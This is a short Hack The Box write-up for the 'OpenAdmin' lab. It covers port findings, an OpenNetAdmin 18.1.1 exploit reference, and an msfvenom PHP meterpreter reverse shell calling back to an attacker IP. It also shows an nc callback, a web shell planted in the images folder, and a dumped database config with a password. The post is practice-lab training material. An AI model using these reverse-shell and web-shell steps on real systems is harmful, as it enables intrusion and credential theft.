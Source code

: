 ```yaml
---
layout: post
title: "HTB: OpenAdmin"
tags: htb oscp-like crackstation gtfobins
---
```

### Recce
22,80


`http://openadmin.htb/artwork/`
nothing much


`http://openadmin.htb/ona/`
v18.1.1


### Open up google and search 'ona 18.1.1 exploit'
first result:
```
https://www.exploit-db.com/exploits/47691
```
exploit works; tried: nc -nv 10.10.14.2 4444 while listening on 4444 and got a callback.


### Uploaded meterpreter shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f raw > shell.php
```

### PHP-fied the shell (notice the msfvenom output was 'raw'):
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### Via shell, copied the shell.php to /images so i get:
`http://openadmin.htb/ona/images/shell.php`


### `cat database_settings.inc.php`
```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

```